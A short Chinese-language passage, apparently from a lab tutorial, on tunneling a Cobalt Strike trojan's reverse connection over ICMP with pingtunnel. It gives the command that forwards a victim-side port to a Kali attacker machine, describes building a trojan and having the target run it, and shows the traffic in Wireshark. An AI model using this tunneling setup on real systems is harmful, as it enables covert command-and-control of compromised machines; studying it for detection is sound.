将本地机器的9999端口的数据转发到kali机器的7777端口。这里是使用ICMP协议进行数据转发。
pingtunnel.exe -type client -l :9999 -s 192.168.15.141 -t 192.168.15.141:7777 -tcp 1
```

	

```
cs上创建监听器，按照下面的配置，这样木马执行的过程中会反弹到靶机的9999端口，然后再转发到kali的7777端口上。
```

	

```
创建木马，然后靶机点击运行。于是即可上线。
```

	

```
通过wireshark分析流量发现是使用ICMP协议进行通信。
```

	

​	


